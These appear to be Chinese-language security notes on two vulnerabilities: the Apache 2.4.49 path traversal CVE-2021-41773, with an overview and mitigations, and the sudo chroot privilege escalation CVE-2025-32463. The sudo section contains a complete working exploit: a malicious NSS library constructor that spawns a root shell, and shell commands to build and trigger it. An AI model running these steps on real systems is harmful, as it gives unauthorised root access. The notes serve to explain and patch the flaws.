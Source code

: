 ## ==CVE-2021-41773==

 是一个高危的路径遍历和文件泄露漏洞，影响 **Apache HTTP Server 2.4.49 版本**。

------



### 漏洞概述



- **漏洞类型：** 路径遍历（CWE-22）和文件泄露。在某些配置下，它还可能导致远程代码执行（RCE）。
- **受影响版本：** Apache HTTP Server 2.4.49。
- **成因：** Apache HTTP Server 2.4.49 中路径规范化过程的缺陷允许攻击者利用路径遍历攻击（例如，使用 `../` 或其 URL 编码的等效形式 `.%2e/`）将 URL 映射到 Alias 类指令配置目录之外的文件。
- **影响：**
  - **文件泄露：** 攻击者可以未经授权地访问服务器上的敏感文件（例如 `/etc/passwd`）。
  - **远程代码执行 (RCE)：** 如果配置目录之外的文件没有受到默认的 "require all denied" 配置保护，并且这些别名路径启用了 CGI 脚本，攻击者就可以在服务器上执行任意代码。
- **利用情况：** 该漏洞在发现后不久就已被积极利用。公开的概念验证（PoC）漏洞利用代码也广泛可用。

------



### 修复与缓解



- **修复版本：** Apache 在 **Apache HTTP Server 2.4.50** 中发布了修复程序。然而，此修复被发现不完整，后来被单独跟踪为另一个漏洞 **CVE-2021-42013**，该漏洞也允许路径遍历和 RCE。针对 CVE-2021-41773 和 CVE-2021-42013 的完整修复已在 **Apache HTTP Server 2.4.51** 中发布。
- **缓解措施：**
  - 主要建议是**将 Apache HTTP Server 更新到 2.4.51 或更高版本**。
  - 如果无法立即更新，请确保所有不打算公开访问的目录都实施了 `Require all denied` 指令。这应应用于所有目录，并且**绝不能**在没有适当限制的情况下应用于根目录。
  - 如果 `mod_cgi` 模块对于业务运营并非必不可少，请禁用它，因为它的启用可能会将漏洞升级为 RCE。
  - 考虑使用 Web 应用程序防火墙（WAF）来帮助检测和阻止利用尝试。





# 🔐 CVE-2025-32463 - Sudo 本地提权漏洞（chroot 绕过）

---

## 🌐 漏洞编号 / CVE ID

- CVE-2025-32463

---

## 🧩 漏洞类型 / Vulnerability Type

- 本地提权 / Local Privilege Escalation (LPE)

---

## 📅 披露时间 / Disclosure Date

- 2025 年 6 月底（在 sudo 1.9.17p1 中修复）

---

## 💥 漏洞影响 / Affected Versions

- Sudo 1.9.14 ~ 1.9.17  
- 含 Ubuntu / Fedora / RHEL / macOS Sequoia（默认环境）

---

## ⚠️ 危害等级 / Severity

- CVSS 评分：9.3（Critical）

---

## 🧪 漏洞简述 / Vulnerability Summary

> 该漏洞利用了 `sudo` 的 `-R` 或 `--chroot` 参数，在切换根目录后解析 `/etc/nsswitch.conf` 时，会加载攻击者控制的 NSS 模块（如 `libnss_xxx.so.2`），最终导致执行恶意共享库中的构造函数，从而实现本地提权。

> This vulnerability leverages the fact that when using `sudo -R` to enter a chroot environment, sudo will parse `nsswitch.conf` from the new root and load potentially malicious `libnss_xxx.so.2` libraries, allowing local attackers to execute arbitrary code as root.

---

## 🧠 漏洞原理 / Root Cause

1. 用户可以使用 `sudo -R /some/dir command` 进入任意 chroot；
2. 在该 chroot 环境下（攻击者可控），可伪造 `/etc/nsswitch.conf` 文件；
3. 指定自定义 NSS 模块名，例如：
   ```text
   passwd: files myhack

1. 系统会尝试加载 `libnss_myhack.so.2`；

2. 恶意共享库中可包含如下构造函数：

   ```apl
   __attribute__((constructor)) void init() {
       setuid(0); setgid(0);
       system("/bin/bash");
   }
   ```

3. 加载时自动执行，获取 root shell。

------

## 🧰 利用条件 / Exploitation Conditions

- 攻击者能写入某个目录并执行 `sudo -R`；
- sudo 未打补丁，仍为受影响版本；
- 系统支持动态加载 NSS 模块。

------

## 🔧 利用步骤 / Exploit Steps

```apl
# Step 1 - 创建伪造目录结构
mkdir -p /tmp/chroot/etc /tmp/chroot/lib

# Step 2 - 编写伪造 nsswitch.conf
echo "passwd: files myhack" > /tmp/chroot/etc/nsswitch.conf

# Step 3 - 编写并编译恶意共享库
cat << EOF > myhack.c
#include <unistd.h>
#include <stdlib.h>
__attribute__((constructor)) void init() {
    setuid(0); setgid(0);
    system("/bin/bash");
}
EOF

gcc -shared -fPIC -o /tmp/chroot/lib/libnss_myhack.so.2 myhack.c

# Step 4 - 触发 sudo chroot 提权
sudo -R /tmp/chroot id   # 或 sudo -R /tmp/chroot /bin/bash
```

执行成功后，即可获取 root shell。

------

## 🔒 修复方案 / Mitigation

- 将 sudo 升级至 **1.9.17p1 或更高版本**；
- 禁止普通用户执行 `sudo -R` 或限制可访问的 chroot 路径；
- 加强 NSS 模块的加载路径校验。

------

## 